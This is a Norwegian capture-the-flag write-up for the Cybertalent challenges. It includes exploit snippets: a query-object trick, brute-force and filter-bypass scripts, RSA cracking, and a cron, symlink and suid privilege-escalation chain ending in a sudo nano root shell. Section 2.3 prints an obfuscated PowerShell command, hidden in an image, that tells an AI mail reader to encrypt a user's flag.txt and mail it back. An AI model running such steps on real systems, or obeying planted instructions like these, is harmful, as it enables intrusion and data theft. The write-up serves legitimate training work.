


# Cybertalent

# KAPITTEL1

# 1.8 Kryptogram

Monoalphabetic substitution cipher. Brukte først dcode.fr, men innså at den ikke hadde æøå, så gikk over til manuell løsing på en annen nettside:



Kodeordet er `atterloom`

Skriv det inn i programmet som kjører og få flagget.


## 1.9 NoSQL

Her er en litt forenklet versjon av `/validate`-endepunktet

```js
app.post('/validate', async (req, res) => {
    let { flag } = req.body;

    let [rows] = await db.query('SELECT flag FROM flags WHERE flag = ? LIMIT 1', [flag]);
    flag = rows.length ? rows[0].flag : null;

    return res.json({ ok: true, message: `${flag} is a valid flag!` });
});
```

Payloaden som sendes til dette endepunktet er:

```json
{ "flag": "input" }
```

Da blir utrykket i sql slik: `... WHERE flag = 'input' LIMIT 1`

Men det skjer noe interessant i måten de bruker prepared statement. Ettersom flagget brukes i statementen med klammer: `[flag]`, blir den lest inn som et objekt som også kan ha en annen form. For eksempel slik:

```json
{ "flag": { "id": "0" } }
```

Da tolkes utrykket i sql slik: `... WHERE id = '0' LIMIT 1`.

Da matcher den det første elementet i lista, som er flagget. Vi er også så heldige at flagget printes ut selv om vi ikke klarte å gjette det.


## 1.11 Solveme

### Oppgave 1
- Første passord: `SuperSecretPass!`
- `decrypt(&flag1, &flag1)` dekrypterer flagget i minnet. Og printer *en del* av den dekrypterte strengen.

### Oppgave 2
- Passordet må matche en del av `"What a beautiful password you have chosen for yourself!"`: a beautiful pass
- `flag2` dekrypteres etter riktig passord.

### Oppgave 3
- Passordet må være nøyaktig 16 tegn.
- `checkPassword3` gjør bitvise operasjoner på 4-byte blokker av passordet og sammenligner med hardkodede verdier:
  1. Hver 4-byte blokk XOR’es og modifiseres med en fast formel.
  2. Resultatet sammenlignes med en kjent konstant (`0x8f745590`, `0x6b838889` osv.).
 - `flag2` dekrypteres etter riktig passord.

### Oppgave 4

Ethvert 4-bokstavs svar er godkjent, men flagget er kryptert med noe à la Salsa20. Derfor må passordet bruteforces. Det kan gjøres på to måter:
- Ta ut den logikken som gjør dekrypteringen og bruteforce den raskt
- Kjøre hele programmet mange ganger og teste ulike user inputs. Det siste er enklere, så kunne jeg se på andre oppgaver imens den jobbet: 

```py
from pwn import *
import string
import itertools
import time

context.log_level = "critical"

alphabet = string.ascii_lowercase

start = time.time()
attempts = 0
TOTAL = len(alphabet) ** 4  # 456976

for combo in itertools.product(alphabet, repeat=4):
    guess = "".join(combo).encode()
    attempts += 1

    io = process("./chall")

    io.sendlineafter(b"Enter your first password, please: ", b"SuperSecretPass!")
    io.sendlineafter(b"Enter your second password, please: ", b"a beautiful password...")
    io.sendlineafter(b"Enter your third password, please: ", b"n0PlaceLik3aH0m3")

    io.sendlineafter(b"Enter your fourth password, please: ", guess)
    io.recvuntil(b"?\n")
    result4 = io.recvline()
    
    io.close()

    if b"flag" in result4.lower():
        print(f"[FOUND] {guess.decode()} -> {result4.decode(errors='ignore').strip()}")
        break
```

Passordet viste seg å være "qbit"


### Ekstraoppgave

Flagg 1 dekrypterer en stor string, men printer bare de de første tegnene av strengen (til den ser "}")

Derfor bruker jeg gdb og setter breakpoint på rett etter "decrypt", og leser ut minnet på dette tidspunktet. Da finner jeg 2 flagg i den samme blokken.


## 1.12 Ubalansert

RsaCtfTool løste denne uten problem.

Deretter er det bare å dekryptere:

```py
from Crypto.PublicKey import RSA

# Load private key
with open("priv.pem", "rb") as f:
    key = RSA.import_key(f.read())

# Ciphertext as integer
c = 672897534458289166611755724602906...


m = pow(c, key.d, key.n)

# Convert to bytes
plaintext = m.to_bytes((m.bit_length() + 7) // 8, "big").decode()

print(plaintext)
```

Ut får du flagget :)


## 1.13 RSA7777

RsaCtfTool kunne bruks for å knekke public key og lage en private key fra det. Deretter kunne dette brukes for å logge på med ssh med privatnøkkelen.


## 1.15 Missile Command

Åpnet programmet i https://github.com/dnSpyEx/dnSpy. Der fant jeg en "win" funksjon som kunne kalles for å vinne spillet automatisk:

```c#
LoadScene("Win")
```

Det var litt knot å få kompilert programmet på nytt, men etter å ha fikset et par småfeil, som at noen av funksjonen måte defineres tydeligere med `UnityEngine.` foran.


## 1.16 Legend of Vexillum

Det første jeg tenkte var å forsøke å utforske spillet på vanlig måte. Da sjekket jeg ut hvordan jeg kunne scripte utforsking av kartet.

Jeg lagde et script som mappet alle rommene, og ting som fantes i dem. For å gjøre det enklest mulig så jeg om jeg kunne sende datapakkene direkte istedenfor igjennom spillklienten. Da fant jeg ut at jeg kunne sende TCP-pakker.

Når jeg så i gjennom dumpen med innholdet i de ulike rommene så jeg at det var et rom som het noe med Eyes, som ikke ble besøkt av scriptet fordi det ikke fulgte samme standard for rekkefølgen på ordene.

Derfor ville jeg prøve å besøke dette rommet direkte:

```py
import socket

DEST_IP = "131.163.89.47"
DEST_PORT = 2000           # replace with the actual port
DATA = b"ROOM:eye_room;ITEMS:;COMMAND:look room\n"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect((DEST_IP, DEST_PORT))
sock.sendall(DATA)

response = sock.recv(4096)
print(response)

sock.close()
```

Det viste seg at det var her flagget var gjemt.


# KAPITTEL2

## 2.1 Pet Gallery

Her er et forenklet utdrag av koden som verifierer flaggene:

```py
@app.route("/img/<token>")
def image(token):
    if "DeW" in token:
        img = "Forbidden"
    else:
        token += "=" * (-len(token) % 4)
        img = base64.b64decode(token).decode()

    return send_from_directory("images", f"{img.lower().replace(' ', '-')}.png")
```

`send_from_directory()` som leser path godtar at du legger en path utover filnavnet, så jeg la til `./` foran bildet trigget Forbidden.

På den måten forskyver base64-encodingen seg slik at `DeW` ikke vil være i teksten


## 2.3 Maskerte Poter

Jeg startet med å dekomprimere vedleggene og generere filene som ble sendt.

En av tekstfilene inneholdt noe interressant. En lang tilsynelatende kryptert base64-string.

Ettersom det stod hintet om at AI/MCP hadde lest mailene tenkte jeg først på prompt-injection. Derfor forsøkte jeg først å søke etter tekst i bildene og se i metadataene. Det ga ingen resultater.

Derfor så jeg videre på ulike former for stego. Da oppdaget jeg noe rart på bilde 15:



Teksten på bildet inneholdt instruksjoner om at AI måtte kjøre noen obfuskerte kommandoer i Powershell, og sende svaret tilbake på mail:

```ps1
$s=&{(14,27,33,-22|MeasurH-Object -Sum).Sum+(&{[iTt]"$((3*11)+(17*2)+(5))"s€)-([char]'~'-[char]'0')};$r=[System.Random]::nHw($s);$k=1..32|%{((($r.Next(0,256)-11)*3)-bxor 0x5A)-band 0xFF};$f=GHt-Content "c:\users\sofie\documents\flag.txt";$s=ConvHrtTo-SecureString $f -AsPlaiText -Force;ConvertFrom-SecureString $s -KHy $k
```

Heldigvis for meg er AI god på både deobfuskering og å reversjere enkle funksjoner. 

Skriptet under tar base64-stringen fra mailen med den krypterte base64-stringen som input, og finner innholdet i `flag.txt`:

```ps1
$enc = "76492d1116743f0423413b16050a5345MgB8AEMAaAAyAHEAWgBqADkAYwBDADgAWABPAEIAZQBCAE0AYwBnAGQAdgAvAGcAPQA9AHwAMQAyAGEAYQA5ADIAYgBjAGMAOABmADEAYQA1ADYAZgBiAGIANgA3ADMAMAA4ADEAMAA4ADcAYwAzAGIAOQA4ADMAYwA3AGMAYQBjADYAOAA0ADYAMgA2ADAAZAA2AGIAMwBiADgANgAwADYAMwAyADIAZABmADMAMwBjADcANABhADMAYgA0AGQAYQA3AGYAYQA5AGYAMAA2ADgAOQAzADAAMQBlAGIAYwAzAGIAMwA0ADkAZgA4AGMAZAA3ADUANAAyAGYAMQA5AGQANQBlAGYAMwAzAGQANQBjADgANAA4ADYAOAA1ADkAMAAxADEAYwBkAGIAMAA2AGQANgAzADMAZQAzAGUAYwA5ADAAOAA0ADMAOQAwAGUAZAAwAGIAYgBmADAAZQBlADAAZAA3AGEAZAA0ADkANwBhADEAMQA="

# Recreate deterministic key
$r = [System.Random]::new(46)
$key = 1..32 | ForEach-Object {
    ((($r.Next(0,256) - 11) * 3) -bxor 0x5A) -band 0xFF
}

# Decrypt correctly
$ss = ConvertTo-SecureString $enc -Key $key
[System.Net.NetworkCredential]::new("", $ss).Password
```


## 2.5 Eye of the Tiger

Her er det lagt inn obfuskert JavaScript i svg-bildet av katten. Det gjorde at det skjedde ting når du trykket på den.

I koden var det også noe hint om å sende cx og cy koordinater til nettsiden.

Ettersom oppgaven heter Eye of the Tiger gjettet jeg at koordinatene skulle være øynene på katten (tigeren). For å treffe perfekt fant jeg "koden" i svg-fila som tegnet øynene og sendte koordinatene med et skript. Jeg fant også ut at det måtte være koordinatene til det høyre øye, ikke det venstre:

```py
import requests

url = "https://eye-of-the-tiger.ctf.cybertalent.no/"

data = {
    'cx': str(225),
    'cy': str(140)
}

response = requests.post(url, data=data)
print(response.text)
```

Med koordinatene korrekt viste siden en hemmelig chattelog hvor de sendte flagget.


## 2.7 Trappetrinn

### Trappetrinn

Det første flagget lå på serveren når vi logget inn:

```bash
cat flag.txt
```

Det første jeg videre er å få oversikt over brukere og grupper med kommandoer som `id` og `group`. Det avslører at jeg og David er i én gruppe, og David og Priya er i én annen gruppe. Derfor må jeg få tilgang til den ene for å nå den neste. Derav navnet trappetrinn.


### Trappetrinn David

Det første jeg gjør for å finne Davids flagg er å kjøre denne kommandoen for å se hvilke filer jeg og David har til felles:

```bash
find / -user david 2>/dev/null
```

Det avslører et backup-system i en cronjob som kjører med suid bit:

```bash
#!/bin/bash
TARGET_FILE="/opt/projects/projectAtla/backup/filesToBackup"
OUTPUT_DIR="/opt/projects/projectAtla/backup/files"

while IFS= read -r TARGET; do
    [ -z "$TARGET" ] && continue
    [ ! -f "$TARGET" ] && {
        echo "Warning: '$TARGET' does not exist, skipping." >&2
        continue
    }
    NAME=$(basename "$TARGET")
    cat "$TARGET" > "$OUTPUT_DIR/$NAME" 2>/dev/null
done < "$TARGET_FILE"
```

Den leser filnavnene som ligger i tekstfilen filesToBackup, og kopierer dem til en backup-mappe.

Sårbarheten her er at programmet kjører som David. Det gjør at hvis vi kan linke til Davids filer og få dem kopiert til mappen:

```
~/flag.txt
```

Da kopierer den flagget til david i backupmappen som jeg kan lese.


### Trappetrinn Priya

For å få tilgang til Priya begynte jeg med å se på hvordan jeg kunne få shell hos David.


**Den lange veien**

For å få shell hos Priya legger jeg inn en symlink som peker tilbake til Backup.sh i backup-folderen. Nå som symlinken er på plass lager jeg en il som heter Backup.sh et annet sted på filsystemet. Cronjobber kjøres igjen vil den bytte ut seg selv med scriptet jeg nettopp lagde. På den måten kan jeg kjøre hvilke som helst kommandoer som om jeg er David.


**Den korte veien**

Jeg oppdaget etter å ha løst Priya på den tungvinne måten over at jeg kunne hente ut ssh private key og logget på direkte som David.


Selve løsingen for Priya baserer seg på et suid-bit på noe som opererer som en stager som kjøres som Priya, litt på samme måte som hos David.

Programmet med suid-bittet skal kjøre scriptet `helper.sh`. Men siden suid-bit kun arves til binærfiler når den forker kjører skriptet som David. Derfor må jeg lage en binærfil som henter flagget, og kalle den for helper.sh. Alså er det en binær, selv om den må hete `.sh`.

For å gjøre det enkelt for meg selv gjorde jeg at skriptet hentet kommandoer fra en tekstfil jeg lagde, og kjørte dem hvert 10 sekund. På den måten var det lett å både hente flagget, og ssh-nøkkel uten at jeg trengte å hardkode binærfila.


### Trappetrinn ROOT

I den siste steget logger jeg inn som Priya og sjekker for suid-bits.

Jeg finner ut at programmet nano kan kjøres som root. Det kan enten brukes for å lese flagget direkte, eller for å [få shell som root](https://gtfobins.github.io/gtfobins/nano/#sudo).

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat ~/flag.txt
```


**Flere writeups kommer kanskje : )**
